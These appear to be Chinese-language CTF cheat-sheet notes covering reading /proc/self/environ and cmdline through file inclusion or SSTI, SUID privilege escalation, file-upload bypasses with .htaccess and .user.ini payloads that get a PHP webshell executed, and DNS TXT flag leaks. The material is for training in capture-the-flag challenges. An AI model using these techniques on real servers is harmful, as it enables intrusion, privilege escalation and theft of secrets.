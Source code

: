`/proc/self` 表示当前进程目录。前面说了通过 `/proc/$pid/` 来获取指定进程的信息。如果某个进程想要获取当前进程的系统信息，就可以通过进程的pid来访问`/proc/$pid/`目录。但是这个方法还需要获取进程pid，在`fork`、`daemon`等情况下pid还可能发生变化。为了更方便的获取本进程的信息，linux提供了 `/proc/self/`目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于 `/proc/`本进程`pid/` 。进程可以通过访问 `/proc/self/` 目录来获取自己的系统信息，而不用每次都获取`pid`。

有了`self`目录就方便多了，下面我们演示一下`self`的常见使用

```bash
ls -al /proc/self/cwd
ls /proc/self/cwd
ls -al /proc/self/exe
cat /proc/self/environ
cat /proc/self/fd/{id}
```

在真正做题的时候，我们是不能通过命令的方式执行通过cat命令读取cmdline的，因为如果是cat读取/proc/self/cmdline的话，得到的是cat进程的信息，所以我们要通过题目的当前进程使用读取文件（如文件包含漏洞，或者SSTI使用file模块读取文件）的方式读取/proc/self/cmdline。

### SUID提权

```bash
# 搜索 SUID file 可执行文件
find / -type f -perm /4000 2>/dev/null
# 利用 sed 命令查看 flag
/bin/sed '1p' /flag
```

Nmap，Vim，find，Bash，More，Less，Nano，cp等

### 文件上传

尝试特殊解析漏洞：php3,php5,phtml ； 大小写绕过：PHP,pHP； 点绕过：php.； 空格绕过：php空格；::$$DATA绕过：shell.php::$$DATA；双后缀：shell.phphpp；单循环绕过：shell.php. .；假文件名绕过：shell.php/.

.htaccess绕过和.user.ini绕过

```php
.htaccess绕过：
GIF89a
<FilesMatch “shell.jpg”>
SetHandler application/x-httpd-php
</FilesMatch>
```

```php
GIF89a
auto_prepend_file=shell.jpg
注：用蚁剑或菜刀链接实路径的shell.jpg改为index.php
```

!!!记得修改MIME的值 eg:image/jpeg

### 信息泄漏之域名解析

```bash
╰─ nslookup -query=any flag.ctfshow.com                                                                                    ─╯
Server:198.18.0.2
Address:198.18.0.2#53

Non-authoritative answer:
flag.ctfshow.com text = "flag{just_seesee}"

Authoritative answers can be found from:
```
